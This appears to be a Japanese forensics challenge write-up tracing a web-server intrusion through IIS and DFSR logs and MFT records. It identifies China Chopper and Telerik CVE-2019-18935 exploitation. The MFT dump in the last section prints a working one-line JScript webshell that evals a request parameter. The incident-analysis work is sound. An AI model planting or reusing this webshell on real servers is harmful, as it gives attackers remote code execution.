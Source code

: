 # RA-0
![image](https://github.com/user-attachments/assets/3161bad6-9817-4aa2-996b-8c0f2061d988)

***
# RA-1
![image](https://github.com/user-attachments/assets/645f6323-f0fe-4843-b696-f4f9f7b3bfa9)  
【sample2　=　App_Web_aa0aecbt.dll】  
攻撃者が使えなくなった、つまりファイルが見当たらなくなったりしているログがDMZに出ているはず、

![image](https://github.com/user-attachments/assets/87d87b6e-75c5-4bd9-958f-718a173000dd)  

404が出ていることから`2021-04-05 21:40:19`に【/submit.aspx】へのアクセスが切れた模様

***
# RA-2
![image](https://github.com/user-attachments/assets/3c341502-304b-4e0d-9bd0-700c951bc2af)  

初めにChopperと答えたがダメそう…　　
さらに絞り込んでみるとあった。
![image](https://github.com/user-attachments/assets/a15a4200-ea4a-4a02-a006-ccc9e41d6cf5)

`China Chopper`

***

# RA-3
![image](https://github.com/user-attachments/assets/bd7ef8b8-4c4d-4c00-b956-70e086c3aba3)  
DFSのサービスでと問われているので、おそらく通信を切った【dmz-webpub.alien.local】側のイベントログを確認すればよい

![image](https://github.com/user-attachments/assets/c91db6e2-17a5-45e5-bad6-7dd3f396c1e6)  
急に同時にログをはいているので中身を見たら
```
The description for Event ID ( 4010 ) in Source ( DFSR ) could not be found.
Either the component that raises this event is not installed on the computer or the installation is corrupted.You can install or repair the component or try to change Description Server.

The following information was included with the event:
BBD5FC23-18C7-4852-B43B-0A869F460447
C:\dfsrtest
dfsrtest
dfsrtest
5309CC5C-F501-44D2-9AA4-41E563E223AE
037CD430-D5EE-4B2A-BC47-2A30446C443C
```

といった具合にエラーをはいている。なので、`2021-04-01 08:38:00`で間違いなさそう。


***

# RA-4
![image](https://github.com/user-attachments/assets/c54d4879-c88a-4a8f-ba5d-e096bb0e466f)


![image](https://github.com/user-attachments/assets/9b55d61a-2832-45bb-9192-600c753f8c12)  

dev_agardnerからの再ログイン
時間だけで言ったら`2021-04-05 23:32:18`である。  

DMZにglobal.aspxという代替えが設置されたが設置手法が変わっている。
```
2021-04-05 23:15:46【dmz-webpub.alien.local】 -   POST /Telerik.Web.UI.WebResource.axd type=rau 80 - 13.54.35.87 python-urllib3/1.26.2 - 200 0 0 1104
2021-04-05 23:16:07【dmz-webpub.alien.local】 -   POST /global.aspx - 80 - 13.54.35.87 Mozilla/5.0+(Windows+NT+10.0;+WOW64;+Trident/7.0;+rv:11.0)+like+Gecko - 200 0 0 864
```
とあるように[Telerik UIの脆弱性](https://news.sophos.com/ja-jp/2022/06/15/telerik-ui-exploitation-leads-to-cryptominer-cobalt-strike-infections-jp/)が関係してそう。
```
攻撃者はこの脆弱性 (CVE-2019-18935) を悪用して Cobalt Strike ビーコンを (DLL ペイロードとして) ディスクに配信し、このビーコンを使用してエンコードした PowerShell コマンドを実行していました。PowerShell コマンドはさらにマルウェアをダウンロードし、いくつかの新しい手法を用いてサーバー上に常駐させます。
```

***
# RA-5
![image](https://github.com/user-attachments/assets/365a99ac-6c9f-4719-a8a5-5f3f5a8bd4ed)

MFTECmd.exe -f "C:\work\ACSC\Files\corp-webdev.alien.local\C\$MFT" --csv "C:\work\ACSC\Files\corp-webdev.alien.local" --fls  
これで出力したファイル内にあるglobal.aspxを調べて入力/シーケンス番号の詳細を調べる。
![image](https://github.com/user-attachments/assets/96af2b1a-c140-4cd9-81cf-ffbcb849a76c)  

302095-28であるから--deで詳細を出力する。

```
C:\tools\MFTECmd>MFTECmd.exe -f "C:\work\ACSC\Files\corp-webdev.alien.local\C\$MFT" --de 302095-28
MFTECmd version 1.2.2.1

Author: Eric Zimmerman (saericzimmerman@gmail.com)
https://github.com/EricZimmerman/MFTECmd

Command line: -f C:\work\ACSC\Files\corp-webdev.alien.local\C\$MFT --de 302095-28

Warning: Administrator privileges not found!

File type: Mft

Processed C:\work\ACSC\Files\corp-webdev.alien.local\C\$MFT in 4.0476 seconds

C:\work\ACSC\Files\corp-webdev.alien.local\C\$MFT: FILE records found: 302,641 (Free records: 1) File size: 295.8MB


Dumping details for file record with key 00049C0F-0000001C

Entry-seq #: 0x49C0F-0x1C, Offset: 0x12703C00, Flags: InUse, Log seq #: 0x4043066F, Base Record entry-seq: 0x0-0x0
Reference count: 0x2, FixUp Data Expected: 02-00, FixUp Data Actual: 00-00 | 00-00 (FixUp OK: True)

**** STANDARD INFO ****
  Attribute #: 0x0, Size: 0x60, Content size: 0x48, Name size: 0x0, ContentOffset 0x18. Resident: True
  Flags: Archive, Max Version: 0x0, Flags 2: None, Class Id: 0x0, Owner Id: 0x0, Security Id: 0x6C3, Quota charged: 0x0, Update sequence #: 0x98F3688

  Created On:         2021-04-05 23:32:35.4899111
  Modified On:        2021-04-05 23:15:46.0462995
  Record Modified On: 2021-04-05 23:15:46.0462995
  Last Accessed On:   2021-04-05 23:32:35.4899111

**** FILE NAME ****
  Attribute #: 0x2, Size: 0x70, Content size: 0x58, Name size: 0x0, ContentOffset 0x18. Resident: True

  File name: global.aspx
  Flags: Archive, Name Type: Windows, Reparse Value: 0x0, Physical Size: 0x0, Logical Size: 0x0
  Parent Entry-seq #: 0x2CE8F-0x2

  Created On:         2021-04-05 23:32:35.4899111
  Modified On:        2021-04-05 23:32:35.4899111
  Record Modified On: 2021-04-05 23:32:35.4899111
  Last Accessed On:   2021-04-05 23:32:35.4899111

**** FILE NAME ****
  Attribute #: 0x3, Size: 0x78, Content size: 0x5A, Name size: 0x0, ContentOffset 0x18. Resident: True

  File name: GLOBAL~1.ASP
  Flags: Archive, Name Type: Dos, Reparse Value: 0x0, Physical Size: 0x0, Logical Size: 0x0
  Parent Entry-seq #: 0x2CE8F-0x2

  Created On:         2021-04-05 23:32:35.4899111
  Modified On:        2021-04-05 23:32:35.4899111
  Record Modified On: 2021-04-05 23:32:35.4899111
  Last Accessed On:   2021-04-05 23:32:35.4899111

**** DATA ****
  Attribute #: 0x1, Size: 0x68, Content size: 0x49, Name size: 0x0, ContentOffset 0x18. Resident: True

  Resident Data

  Data: 3C-25-40-20-50-61-67-65-20-4C-61-6E-67-75-61-67-65-3D-22-4A-73-63-72-69-70-74-22-25-3E-3C-25-65-76-61-6C-28-52-65-71-75-65-73-74-2E-49-74-65-6D-5B-22-74-69-6E-66-6F-69-6C-22-5D-2C-22-75-6E-73-61-66-65-22-29-3B-25-3E-0A

    ASCII:   <%@ Page Language="Jscript"%><%eval(Request.Item["tinfoil"],"unsafe");%>

    UNICODE: ┼?????畧条????瑰???慶????????楴普楯?????????

```


